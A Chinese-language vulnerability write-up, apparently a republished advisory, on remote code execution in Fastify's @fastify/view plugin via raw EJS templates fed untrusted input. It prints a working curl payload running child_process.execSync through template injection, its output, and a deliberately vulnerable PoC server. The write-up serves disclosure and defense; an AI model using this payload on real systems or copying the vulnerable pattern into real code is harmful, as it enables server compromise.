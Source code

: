 #  通过@fastify/view raw 渲染实现远程代码执行   
 Ots安全   2025-05-06 06:25  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
供应商： Fastify  
  
组件： @fastify/view  
  
影响：远程代码执行（RCE）  
  
发现者： Oblivionsage  
  
供应商确认：是（通过 HackerOne 上的公开评论）  
> 截至 2025 年 5 月，Fastify 已更新其文档并发出明确警告：  
>   
> 请勿将原始内容与不受信任的内容一起使用，否则您将容易受到远程代码执行（RCE）攻击。  
>   
> GitHub PR：fastify/point-of-view#475  
  
  
漏洞摘要  
  
Fastify 的@fastify/view插件允许使用 进行原始模板渲染raw: true。当与EJS  
  
和不受信任的用户输入 一起使用时，将导致远程代码执行。  
  
Fastify 自己的测试文件在没有警告的情况下展示了这种使用模式，  
  
这可能会误导开发人员相信危险行为。  
  
远程代码执行（RCE）  
  
该@fastify/view插件与 EJS 引擎和reply.view({ raw: <user-controlled-string> })相关模式配合使用时，允许任意 EJS 执行。当攻击者能够控制raw传递给视图渲染器的内容时，这会导致远程代码执行 (RCE)。此漏洞源于 Fastify 信任未经任何清理或限制的原始模板字符串，并将其直接传递给 EJS 的compile()方法。  
  
这是实际使用的有效载荷的最小示例：  
  
```
curl -X POST http://localhost:3000/render \  -H "Content-Type: application/x-www-form-urlencoded" \  --data-urlencode 'text=<%= require("child_process").execSync("id").toString() %>'
```  
  
  
输出：  
  
```
uid=1000(nullprophet) gid=1000(nullprophet) groups=...
```  
  
  
截屏：curl.png  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadibXd1zjP4OqYagU8JzasTMvibSAlDg4u5ByJfl7hdTBIG1bKUAocuoFXhbOdGQRcLqKvejyjD4T7w/640?wx_fmt=png&from=appmsg "")  
  
这通过模板逻辑证实了完整的 RCE — 与您的官方示例相匹配（例如reply.view({ raw })）。  
  
这将在服务器上执行任意命令并返回结果。服务器端代码默认不包含此逻辑——它只是将不受信任的输入传递给rawEJS 上下文。  
  
该漏洞的工作原理如下：  
  
我们复制了文档中提到的模式，并允许通过 POST /render 进行原始 EJS 注入。以下是使用的 PoC 服务器代码：  
  
```
// Based on official Fastify repo usage of raw templates:// https://github.com/fastify/point-of-view/blob/master/test/test-ejs.jsconst fastify = require('fastify')();const ejs = require('ejs');const formBody = require('@fastify/formbody');const view = require('@fastify/view');fastify.register(formBody); // Needed to parse POST x-www-form-urlencodedfastify.register(view, {  engine: { ejs }});// Renders raw EJS passed via POST parameter 'text'fastify.post('/render', (req, reply) => {const template = req.body.text;// Pass 'require' to the template contextreturn reply.view({ raw: template }, { require }, { async: false });});fastify.listen({ port: 3000 }, err => {if (err) throw err;console.log('Listening on http://localhost:3000');});
```  
  
  
基于 Fastify 自己的示例代码  
  
该设置直接基于 Fastify 官方point-of-view仓库中的真实示例。具体如下：  
  
```
https://github.com/fastify/point-of-view/blob/master/test/test-ejs.jsreply.view({ raw: fs.readFileSync('./templates/index.ejs', 'utf8') }, data)
```  
  
  
在我们的 PoC 中，我们使用了这种方法：  
  
```
reply.view({ raw: template }, { require }, { async: false });
```  
  
  
这种用法raw存在于代码库的多个地方，包括README.md、测试文件和示例模板。  
  
依恋：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadibXd1zjP4OqYagU8JzasTMiacZMbPRLHo9o4U6CCcUPtiaZia2bhGjETWBhgEKZxIUib1CXAoJgIPhDg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadibXd1zjP4OqYagU8JzasTMOUTMmX48jo1VHGpH0aNlBOWwW0hf8MvmGs7C5rWSicg4Kf1F65bsOIA/640?wx_fmt=png&from=appmsg "")  
  
为什么这很重要  
  
这里需要关注的不是 Fastify 本身执行命令，而是 Fastify 的视图插件：  
  
接受无限制的原始模板输入  
  
编译并执行，无任何警告或清理  
  
允许开发人员在使用此模式时不知不觉地将自己暴露于 RCE  
  
这种行为正是导致模板注入在现代应用程序中存在风险的原因。  
  
供应商回应：  
  
Fastify 团队承认存在风险，但选择不应用代码级补丁。  
  
随后，Fastify 更新了其官方文档，明确警告使用不受信任的原始输入的危险：  
  
“请勿将原始内容与不受信任的内容一起使用，否则您将容易受到远程代码执行（RCE）攻击。  
  
GitHub PR：fastify/point-of-view[#475]()  
  
  
— Fastify 文档（2025 年 5 月）。  
> ⚠️此 PoC 仅用于合法安全研究。请勿在您不拥有或未获得明确测试许可的系统上使用它。  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  

